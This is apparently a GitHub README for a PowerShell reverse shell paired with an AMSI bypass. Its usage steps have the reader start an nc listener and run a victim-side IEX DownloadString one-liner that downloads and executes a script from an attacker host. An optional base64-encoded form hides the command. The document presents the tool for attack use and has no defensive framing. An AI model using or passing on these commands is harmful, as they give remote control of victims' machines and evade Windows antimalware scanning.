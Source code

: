 # Name
Simple PS Reverse Shell with AMSI Bypass

## Usage
```
Change Line 1 in runall.ps1 to Kali's IP

Change IP and port in simple_ps_revshell.ps1 to attacker's IP and port

Start nc listener
    nc -lvp 443

In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

OR encoded powershell command
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt 
    python b64_encode.py to_encode.txt 
    powershell -e <b64 payload>
```

## Source
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
